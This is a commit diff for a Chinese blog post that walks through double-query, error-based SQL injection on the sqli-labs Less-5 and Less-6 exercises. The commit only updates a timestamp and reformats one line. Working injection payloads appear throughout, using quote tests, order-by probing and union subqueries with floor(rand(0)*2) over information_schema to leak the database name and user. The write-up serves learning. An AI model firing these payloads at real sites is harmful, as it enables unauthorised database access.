

Before and after one commit to AngieQ1/AngieQ1.github.io, a plain HTML site: page 2018/12/17/SQL注入之Double Query/index.html in a window 1280 px wide. Shown: the part 1352-2123 px from the top of the page, without its empty margins (98-861 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Site updated: 2018-12-19 22:57:11

```diff
--- a/2018/12/17/SQL注入之Double Query/index.html
+++ b/2018/12/17/SQL注入之Double Query/index.html
@@ -86,7 +86,7 @@
 <meta property="og:site_name" content="Angie&#39;s blog">
 <meta property="og:description" content="0x01 原理Double Query原理分析参考：Sql注入：双查询科普：双查询注入 当order by判断完字段数，但是union select 1,2,3,…不在页面显示返回位时。可以尝试双查询注入。 双查询注入就是嵌套子查询，简单说就是select(select)的形式。 数据库查询要么返回正确的查询结果，要么返回报错信息。双注入查询其实是一种报错查询，将我们需要的信息当作数据库错误返回。">
 <meta property="og:locale" content="default">
-<meta property="og:updated_time" content="2018-12-19T14:55:01.666Z">
+<meta property="og:updated_time" content="2018-12-19T14:57:07.635Z">
 <meta name="twitter:card" content="summary">
 <meta name="twitter:title" content="SQL注入之Double Query">
 <meta name="twitter:description" content="0x01 原理Double Query原理分析参考：Sql注入：双查询科普：双查询注入 当order by判断完字段数，但是union select 1,2,3,…不在页面显示返回位时。可以尝试双查询注入。 双查询注入就是嵌套子查询，简单说就是select(select)的形式。 数据库查询要么返回正确的查询结果，要么返回报错信息。双注入查询其实是一种报错查询，将我们需要的信息当作数据库错误返回。">
@@ -332,7 +332,7 @@
 <p>根据题目信息：<br><a href="http://43.247.91.228:84/Less-5/?id=1" target="_blank" rel="noopener">http://43.247.91.228:84/Less-5/?id=1</a><br>尝试了两个最经典的payload:<br><a href="http://43.247.91.228:84/Less-5/?id=1&#39;" target="_blank" rel="noopener">http://43.247.91.228:84/Less-5/?id=1&#39;</a> and ‘1’=’1<br><a href="http://43.247.91.228:84/Less-5/?id=1&#39;" target="_blank" rel="noopener">http://43.247.91.228:84/Less-5/?id=1&#39;</a> and ‘1’=’2<br>确认sql注入存在。</p>
 <p>字段数payload:<br><a href="http://43.247.91.228:84/Less-5/?id=1&#39;" target="_blank" rel="noopener">http://43.247.91.228:84/Less-5/?id=1&#39;</a> order by 3<br>至少为3</p>
 <p>但是此时利用 union select 1,2,3 发现页面没有返回位。</p>
-<p>根据题目信息尝试双查询注入,payload:<br><strong>爆数据库名</strong><br><a href="http://43.247.91.228:84/Less-5/?id=1&#39;" target="_blank" rel="noopener">http://43.247.91.228:84/Less-5/?id=1&#39;</a> union select 1 from (select count(<em>),concat(floor(rand(0)</em>2),(database()))a from information_schema.tables group by a)b –+</p>
+<p>根据题目信息尝试双查询注入,payload:<br><strong>爆数据库名</strong><br><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">http://43.247.91.228:84/Less-5/?id=1&apos; union select 1 from (select count(*),concat(floor(rand(0)*2),(database()))a from information_schema.tables group by a)b --+</span><br></pre></td></tr></table></figure></p>
 <p>依据上述公式替换爆数据语句即可获取数据库信息。</p>
 <h2 id="Less-6-Double-Query-Double-Quotes-String"><a href="#Less-6-Double-Query-Double-Quotes-String" class="headerlink" title="Less-6 Double Query -Double Quotes-String"></a>Less-6 Double Query -Double Quotes-String</h2><p>这题和上一题是一样的思路，只是变成了双引号的。。</p>
 <p>套用公式，payload：<br><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">http://43.247.91.228:84/Less-6/?id=1&quot; union select  1 from (select count(*),concat(floor(rand(0)*2),(select user()))a from information_schema.tables group by a)b--+``</span><br></pre></td></tr></table></figure></p>
```
Also changed, not shown: index.html (+1 -1 lines).
